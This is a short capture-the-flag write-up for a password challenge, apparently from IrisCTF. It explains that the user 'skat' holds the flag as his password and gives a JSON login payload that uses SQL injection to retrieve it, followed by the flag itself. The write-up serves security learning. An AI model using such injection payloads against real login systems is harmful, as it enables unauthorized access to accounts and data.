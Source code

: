# Whats My Password?

From the files provided the `sql.setup` show us that there is 3 users: `root`, `skat` and `coded`.

The user `skat` has the flag in his passsword.

Its an simple SQL injection. Using the following payload we can retrieve the password of `skat`.

```
{
  "username": "skat",
  "password": "a\" or ( 1=1 and username = \"skat\")--\""
}
```

irisctf{my_p422W0RD_1S_SQl1}
